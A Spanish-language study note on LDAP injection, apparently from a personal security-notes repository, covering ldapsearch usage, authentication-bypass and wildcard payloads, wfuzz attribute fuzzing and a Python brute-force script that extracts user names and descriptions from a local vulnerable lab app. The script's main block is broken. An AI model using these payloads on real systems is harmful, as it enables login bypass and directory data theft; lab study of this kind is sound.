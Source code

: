 # Inyecciones LDAP

Tags: #LDAP #OWASP #Explotacion

* [LDAP](https://www.profesionalreview.com/2019/01/05/ldap/)

Las inyecciones **LDAP** (**Protocolo de Directorio Ligero**) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.

La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Al igual que las inyecciones SQL y NoSQL, las inyecciones LDAP pueden ser muy peligrosas. Algunos ejemplos de lo que un atacante podría lograr mediante una inyección LDAP incluyen:

-   Acceder a información de usuarios o recursos que no debería tener acceso.
-   Realizar cambios no autorizados en la base de datos del servidor LDAP, como agregar o eliminar usuarios o recursos.
-   Realizar operaciones maliciosas en la red, como lanzar ataques de phishing o instalar software malicioso en los sistemas de la red.

Para evitar las inyecciones LDAP, las aplicaciones web que interactúan con un servidor LDAP deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor LDAP. Esto incluye la validación de la sintaxis de los campos de entrada, la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en el servidor LDAP.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades del servidor LDAP para detectar posibles inyecciones.

A continuación, se proporciona el enlace directo al proyecto de GitHub que nos descargamos para desplegar un laboratorio práctico donde poder ejecutar esta vulnerabilidad:

-   **LDAP-Injection-Vuln-App**: [https://github.com/motikan2010/LDAP-Injection-Vuln-App](https://github.com/motikan2010/LDAP-Injection-Vuln-App)


## Comandos

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'   # Podemos ver informacion del usuario admin 

	# b,dc,dc = Base de busqueda, que el dominio seria example.org
	# D = Nombre distinguido
	# 1er_cn = Usuario a autenticar
	# w = Password 
	# x = Autenticacion simple (Usuario, Passwd)
	# 2do_cn = Criterio de busqueda y si existe que nos reporte la informacion  
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=omar'    # Para enumerar un usuario especifico como 'omar'
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=omar)(description=LDAP*))'

	# (&(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'y' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
	# (|(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'o' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
```

```bash
❯ ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldif  # Creara un usuario en base a un archivo que le pasemos
```

```python
❯ nano newuser.ldif
	dn: uid=omar,cd=example,dc=org
	uid: omar
	cn: omar
	sn: 3
	objectClass: top
	objectClass: posixAccount
	objectClass: inetOrgPerson
	loginShell: /bin/bash
	homeDirectory: /home/omar
	uidNumber: 14583102
	gidNumber: 14564100
	userPassword: omar123                      # Automaticamente pasara la passwd a base64
	mail: omar@omarcorp.com
	description: Es una prueba 
	telephoneNumber: 6467548712
```

## Inyecciones
```bash
❯ id=a* &password=*                                  # Nos ayuda a decir que existe cualquier tipo de data y por ende nos ayuda a enumerar usuarios validos

	# a* = Decimos que el usuario empieza con 'a' y despues contiene data, podria ser 'admin'
```

```bash
❯ id=admin))%00 &password=test                        # Es como si hicieramos esto = (&(cn=admin))%00)(userPassword=*))

	# %00 = Es un Null byte, que con )) nos ayuda a comentar el resto de la query y no lea la parte de la passwd
```

```bash
❯ /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt            # Diccionario con atributos para LDAP
```

Enviaremos data por **POST** para hacer el Fuzzing de los atributos
```bash
❯ wfuzz -c --hh=439 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
	# hh = Ocultar los caracteres que tengan como resultado 439
```

```bash
❯ wfuzz -c -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=*)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# user_id = * es para enumerar todos los usuarios, ya que esta haciendo match con data
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Para hacer Fuzzing a un atributo especifico, en este caso para el telephoneNumber
```bash
❯ wfuzz -c --hh=439 -z range,0-9 -d 'user_id=omar)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# Nos descubriria siempre un numero, y lo debemos de agregar antes de la palabra FUZZ, asi hasta encontrar el numero final
	# FUZZ = Ahi se sustituira el diccionario
	# z = Diccionario de tipo range 
	# user_id = Buscar por un usuario especifico
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Script para enumerar usuario validos, pero estos tienen atributos como:
* mail
* telephoneNumber
```python
❯ nano ldapi.py
	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal, string

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)

	# Variables globales
	main_url = "http://localhost:8888/"

	def getInitialUsers():
		characters = string.ascii_lowercase
		initial_users = []
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		for character in characters:
			post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
			r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
			if r.status_code == 301:
				initial_users.append(character)
		return initial_users

	def getUsers(initial_users):
		characters = string.ascii_lowercase + string.digits
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		valid_users = []
		for first_character in initial_users: 
			user = ""
			for position in range(0, 15):     
				for character in characters:
					post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)
					r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
					if r.status_code == 301:
						user += character 
						break
			valid_users.append(first_character + user)
		print("\n")
		for user in valid_users:
			log.info("Usuario valido encontrado: %s" % user)
		print("\n")
		return valid_users

	def getDescription(user):                   # Para un usuario especifico
		characters = string.ascii_lowercase + ' '
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}	
		description = ""
		p1 = log.progress("Fuerza Bruta")
		p1.status("Iniciando fuerza bruta")
		time.sleep(2)
		p2 = log.progress("Descripcion")
		for position in range(0, 50):
			for character in characters:
				post_data = "user_id={})(description={}{}*))%00*&password=*&login=1&submit=Submit".format(user, description, character)
				r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
				if r.status_code == 301:
					description += character 
					p2.status(description)
					break
		p1.success("Proceso de Fuerza Bruta concluido")
		p2.success("La descripcion del usuario es: %s" % description)

	if __name__ == '__main__':
	getInitialUsers()
	getUsers(initial_users)
	for i in range(0, 5):
		getDescription(valid_users[i])
```